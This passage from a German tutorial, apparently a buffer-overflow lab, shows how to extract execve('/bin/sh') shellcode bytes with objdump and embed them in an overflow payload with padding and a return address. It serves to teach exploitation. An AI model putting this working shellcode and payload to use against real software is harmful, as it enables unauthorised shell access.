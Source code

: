 #### Disassembler über ELF-Datei laufen lassen, um Hexwerte der Assemblerbefehle zu sehen
```bash
objdump -d shellcode.o
```
![image5](img/objdump.png)
#### Den Hexcode aus dem dump kopieren
48 31 d2
48 bb 2f 2f 62 69 6e
2f 73 68
48 c1 eb 08
53
48 89 e7
50
57
48 89 e6
b0 3b
0f 05

#### Alles als Hex umschreiben
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
<br><br>

___
## Schritt 8: Shellcode in Programmeingabe einbauen
Länge des Hexcodes herausfinden. In unserem Beispiel sind es 30 Bytes.

Im Python Script soviele Bytes von den 'A's abziehen und dahinter den Shellcode einfügen.

```bash
run $(python3 -c "import sys;sys.stdout.buffer.write(b'\x41'*490+b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'+b'\xf0\xe2\xff\xff\xff\x7f')")
```
